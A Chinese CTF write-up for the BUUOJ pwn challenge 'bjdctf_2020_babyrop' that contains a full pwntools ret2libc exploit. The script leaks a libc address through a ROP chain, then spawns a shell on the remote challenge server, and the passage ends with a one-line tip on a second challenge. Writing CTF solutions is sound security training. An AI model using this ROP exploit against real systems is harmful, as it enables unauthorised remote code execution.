 ## [bjdctf_2020_babyrop](https://buuoj.cn/challenges#bjdctf_2020_babyrop)

1. 进main函数没有system后门，有栈溢出，典型的ret2libc题目：

   ``````python
   from pwn import *
   from LibcSearcher import *
   
   context(os='linux', arch='amd64', log_level='debug')
   
   p=remote("node5.buuoj.cn",29053)
   elf=ELF('./bjdctf_2020_babyrop')
   got = elf.got['puts']
   plt = elf.plt['puts']
   main_addr = 0x4006AD
   print(hex(got),hex(plt))
   
   pop_rdi_ret = 0x400733
   ret_addr = 0x4004c9
   payload = b'a'*(0x20+8)+p64(pop_rdi_ret)+p64(got)+p64(plt)+p64(main_addr)
   
   p.recv()
   p.sendline(payload)
   
   addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
   print(hex(addr))
   
   
   libc = LibcSearcher('puts',addr)
   libcbase = addr - libc.dump('puts')
   print("libcbase:",hex(libcbase))
   sys_addr = libcbase + libc.dump('system')
   str_sh   = libcbase + libc.dump('str_bin_sh')
   print(hex(sys_addr),hex(str_sh))
   
   payload = b'a'*(0x20+8)+p64(ret_addr)+p64(pop_rdi_ret)+p64(str_sh)+p64(sys_addr)
   p.sendline(payload)
   p.sendline(b'cat flag')
   p.interactive()
   
   
   ``````

   ![image-20240601155719740](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406011557824.png)

## [picoctf_2018_rop chain](https://buuoj.cn/challenges#picoctf_2018_rop chain)

1. 注意点，程序调用时 **参数** 与 **函数返回值** 在栈上存放的位置。

